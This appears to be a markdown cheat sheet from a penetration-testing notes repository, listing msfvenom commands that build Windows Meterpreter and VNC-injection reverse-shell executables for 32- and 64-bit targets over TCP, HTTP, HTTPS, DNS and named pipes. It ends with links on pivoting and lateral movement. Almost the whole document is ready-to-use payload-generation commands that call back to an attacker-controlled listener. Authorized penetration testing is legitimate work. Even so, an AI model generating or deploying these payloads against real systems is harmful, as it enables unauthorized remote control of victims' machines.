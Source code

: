 # Reverse Shells

## Interactive Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met-x86.exe`

`$ msfvenom -p windows/meterpreter/reverse_tcp_dns lhost=<dns_URL> lport=<PORT> -f exe met-x86.exe`

- Specify the compromised windows host with `pipehost`

`$ msfvenom -p windows/meterpreter/reverse_named_pipe pipehost=<compromised_target_IP> pipename=<PIPENAME> -f exe -o met-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=<PORT> -f exe -o met-x64.exe`

`$ msfvenom -p windows/x64/meterpreter/reverse_https handlersslcert=<file.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o met_x86_64.exe`

- Specify the compromised windows host with `pipehost`

`$ msfvenom -p windows/x64/meterpreter/reverse_named_pipe pipehost=<compromised_target_IP> pipename=<PIPENAME> -f exe -o met-x64.exe`

## VNC

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

`$ msfvenom -p windows/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

`$ msfvenom -p windows/x64/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

`$ msfvenom -p windows/x64/vncinject/reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

---
## References

- [Metasploit Documentation: Pivoting in Metasploit](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)

- [BorderGate: Lateral Movement With Named Pipes](https://www.bordergate.co.uk/lateral-movement-with-named-pipes/)